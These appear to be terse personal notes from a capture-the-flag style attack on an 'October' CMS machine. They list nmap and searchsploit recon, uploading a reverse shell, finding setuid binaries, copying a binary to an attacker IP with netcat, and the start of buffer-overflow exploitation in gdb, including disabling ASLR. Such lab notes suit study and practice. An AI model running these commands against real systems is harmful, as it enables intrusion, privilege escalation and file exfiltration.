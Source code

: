 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main \(breakpoint on main\)

* r \(run\)

* ```r``python -c 'print "A"\*200'\`\`\` \(buffer overflow\)

* c \(continue\)

* you will see an error after `c`

* `python -c 'print "\x41"' (will print A)`

* checksec

* nc -lvnp 888 \(port set on the reverse shell script\)

* stty raw -echo

* nc -lvnp 888

* cd /usr/local/bin
* ldd ovrflw \|grep libc

Check if the ASLR is enabled in the HOST \(VM\)

* ldd ovrflw \|grep libc

Disable ASLR

* `echo 0 > /proc/sys/kernel/randomize(underscore)va_space #root`
* `ldd ovrflw |grep libc`



